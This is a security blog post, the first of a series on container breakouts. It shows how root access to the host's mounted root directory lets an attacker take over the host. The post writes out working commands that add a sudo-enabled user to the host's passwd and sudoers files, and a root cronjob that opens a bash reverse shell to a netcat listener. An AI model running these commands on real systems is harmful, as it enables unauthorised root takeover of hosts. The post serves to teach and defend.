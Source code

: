 ```yaml
---
title: "Container Breakouts – Part 1: Access to root directory of the Host"
date: 2020-07-15T08:39:10+02:00
draft: false
tags:
- docker
- breakout
- security
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root directory.

<!--more-->

The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)


## Intro

The **motivation** of this post is to **collect container breakouts**. I was considering writing a huge post about all the stuff you must know to break out of the container. But, if I would do so, it will take ages to write, es well to read and at the end, you would just scroll directly to the PoC code snippets. So I dropped that idea and will just link to additional readings.

I also realized during writing that the post must be sliced into more digestible pieces. 

The **first post** is **about** what could probably go wrong if the **host root directory** is **accessible** from the container. Since we have only access to the disc, this approach is 	not an OpSec-safe approach to escalate your privileges. 

The proposed techniques use Unix operating system features that are more system security related, then container security-related. But, as part of a comprehensive series, it has to take place to show the importance.

## Shared Host root directory

Access to a container that shares directories with the host is **not** an **immediate problem**. **But** if the container has **access to** the **host root directory** as user `root` (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you hit the jackpot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer** group. After the user is created, we connect via **SSH** to the host. Admittedly, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```bash
~# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

~# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

~# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

~# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

~# ip r
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2 

~# ssh -l foo 172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ECDSA key fingerprint is SHA256:PezvADaTYqKcp4JfDO1bapTJaMEAVBjCXCCzanBZOW8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.17.0.1' (ECDSA) to the list of known hosts.
foo@172.17.0.1's password: 
Last login: Sat Jul 11 12:12:15 2020 from 127.0.0.1

arch [~]% sudo -i                  

[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)

```

For this scenario, the SSH daemon is running on the host, the configuration is not hardened and the `sudo` package is installed. The sudo step can be exchanged by creating another user with `uid=0(root)`. Another option would be the creation of SSH keys for existing users.

### Cronjob

Because in a default setup the container is **direct connected to the host**, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a **reverse shell by** a **cronjob** that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```bash
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The **cronjob** is executed **every minute** as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting **root access to** the **host** system. 

Here are all steps that must be performed (we start in the container).

```bash
~# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

~# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
~# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to the host system. They are modifying the host and **not minimal-inversive or OpSec-safe**. If you **make mistakes**, you may mix up the configuration of the **host system** and **crash** it. **Be careful !!**

Furthermore, the proposed techniques are possible approaches to escape out of a container if one has access to the host root directory. By the nature of this attack vector, it is more a general Unix privileges escalation technique, then a dedicated container breakout.

I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous techniques continue with the next post [Part 2: Privileged Container](../container-breakouts-part2).


